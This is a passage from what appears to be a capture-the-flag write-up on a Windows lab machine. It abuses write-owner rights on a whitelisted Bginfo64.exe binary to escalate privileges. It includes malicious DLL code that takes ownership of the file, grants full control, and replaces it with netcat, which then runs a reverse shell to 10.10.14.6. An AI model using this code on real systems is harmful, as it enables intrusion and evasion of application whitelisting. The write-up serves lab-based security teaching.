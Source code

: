 `AutoIt3_x64.exe` is owned by Administrator, and users can only read /
execute. The ITDep group (which GinaWild is in) can also delete children
(`DC`):

![](/img/image-20221110134923892.png)

`Bginfo64.exe`, on the other hand, is more permissive. Users can only
read / execute, but ITDep can also write owner (`WO`), which means
ginawild can change the owner.

### Shell

#### Strategy

`Bginfo64.exe` is not blocked at the firewall, and it whitelisted in
AppLocker to run even if unsigned from that path. I can run Dlls as
GinaWild, and GinaWild can take ownership of `Bginfo64.exe`, and then
modify it.

I'll craft a new Dll to:

-   Take ownership of `Bginfo64.exe`.
-   Update the permissions so that GinaWild has full control.
-   Copy the `nc64.exe` I uploaded earlier to the web directory over
    `Bginfo64.exe`.
-   Invoke `nc64.exe` to connect back to me with a reverse shell.

#### Dll

I'll update my Dll code to do the steps above:



        case DLL_PROCESS_ATTACH:
            system("cmd.exe /c takeown /F C:\\share\\Bginfo64.exe");
            system("cmd.exe /c cacls C:\\share\\Bginfo64.exe /E /G ginawild:F");
            system("cmd.exe /c copy C:\\inetpub\\wwwroot\\data\\sites\\1\\media\\nc64.exe C:\\share\\Bginfo64.exe");
            system("cmd.exe /c C:\\share\\Bginfo64.exe -e cmd 10.10.14.6 9003");



For `takeown`, the syntax is `/f [filename]`
([docs](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/takeown)).

For `cacls`, `/E` says "edit ACL instead of replacing it", and
`/G [user:<perm>]` grants the specified rights to that user. So in this
case, full control to GinaWild
([docs](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/cacls)).
